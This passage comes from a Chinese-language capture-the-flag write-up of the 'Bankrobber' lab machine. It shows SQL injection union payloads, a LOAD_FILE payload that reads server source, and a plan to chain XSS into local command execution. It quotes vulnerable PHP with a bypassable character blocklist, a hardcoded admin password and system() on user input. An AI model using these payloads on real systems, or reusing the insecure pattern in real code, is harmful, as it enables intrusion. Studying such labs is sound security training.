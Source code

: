 ```bash
1' union all select 1,2,3-- -
```

![image-20200927140059131]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927140059131.png)



三格，显示位2.注释符-- -
在手注部分耽误了很多时间，中间过程略过，无具体收获。

看看下面

命令执行

![image-20200927140213657]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927140213657.png)


提示只能执行dir

![image-20200927140245769]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927140245769.png)


只允许本地执行。

我们手里还剩个之前的xss。也就是说可以利用xss让管理员在本地执行。

So，需要页面构建一个js脚本。利用管理员把命令推入backdoorchecker。

我们现在需要查看backdoorchecker源码，看看怎样绕过只能dir的命令限制，

我们能够SQLi，同时我们前面已经知道了默认路径应该是xampp。可以通过数据库的`load file`查看源码

```bash
1' union all select 1,LOAD_FILE('C:\\xampp\\htdocs\\admin\\backdoorchecker.php'),3-- -
```

![image-20200927140710237]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927140710237.png)



```php
<?php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad       = array('$(','&');
$good       = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
    $good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
    if(isset($_POST['cmd'])){
            // FILTER ESCAPE CHARS
            foreach($bad as $char){
                if(strpos($_POST['cmd'],$char) !== false){
                    die("You're not allowed to do that.");
                }
            }
            // CHECK IF THE FIRST 2 CHARS ARE LS
            if(substr($_POST['cmd'], 0,strlen($good)) != $good){
                die("It's only allowed to use the $good command");
            }



            if($_SERVER['REMOTE_ADDR'] == "::1"){
                system($_POST['cmd']);
```